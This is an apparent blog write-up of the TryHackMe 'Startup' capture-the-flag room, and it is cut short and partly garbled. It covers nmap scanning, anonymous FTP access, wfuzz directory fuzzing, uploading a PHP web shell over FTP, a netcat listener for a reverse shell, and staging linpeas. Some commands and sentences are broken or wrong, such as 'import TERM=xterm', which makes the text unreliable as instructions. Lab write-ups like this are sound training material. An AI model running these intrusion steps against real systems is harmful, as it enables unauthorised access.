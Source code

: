 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....

file is a simple text file that associates IP addresses with hostnames, one line per IP address.

> sudo leafpad /etc/hosts

  ```
     ip   startup.thm
  ```
  
    sudo nmap -sC -sV startup.thm
     
    -sC is for running default scripts
    -sV is for enumerating version

<p align="left">
<img src="/assets/img/startup/nmap.png" width="350"/>
</p>

From the output, we can see we have 3 ports open. FTP is running on port SSH runs on port 22, while HTTP runs on port 80. Now we know what ports are open and what services they are running.FTP login with username is anonymous and password is anonymous.

> ftp startup.thm

<p align="left">
<img src="/assets/img/startup/ftp-dir.png" width="350"/>
</p>

> get important.jpg
>
> get notice.txt


In FTP, There is a file directory.
wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="left">
<img src="/assets/img/startup/" width="350"/>
</p>

phpshell.php

> put phpshell.php

 Check the ip addr
 
> nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  

























